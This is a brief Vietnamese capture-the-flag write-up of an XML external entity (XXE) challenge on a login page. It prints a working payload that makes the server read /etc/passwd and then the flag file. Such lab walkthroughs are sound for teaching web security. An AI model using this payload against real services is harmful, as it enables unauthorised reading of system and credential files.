 Theo tên của challenge thì ta biết đây là dạng xml.Challenge cho ta trang web có chức năng đăng nhập

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/df756d50-522e-4669-a0c5-bd693e68c467)

Tiếp theo thử login vào.Mình sử dụng burpsuite để bắt gói tin.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/b988d590-8bfd-4b56-88bc-31105019a37b)

Username và password theo form xml,đây là dạng ta [exploit xxe để lấy file](https://github.com/Llam-a/XML-external-entity-XXE-injection/blob/main/Exploiting-XXE-to-retrieve%20files.md)

Payload:
```
<!DOCTYPE product [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user><username>&xxe;</username><password>123</password></user>
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/52774798-1b09-49ab-9202-2ac8c23d360c)

Kết quả trả về của file /etc/passwd.Sau đó thử file /flag 

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/af02c107-88a6-4c83-921e-b484b90eb097)


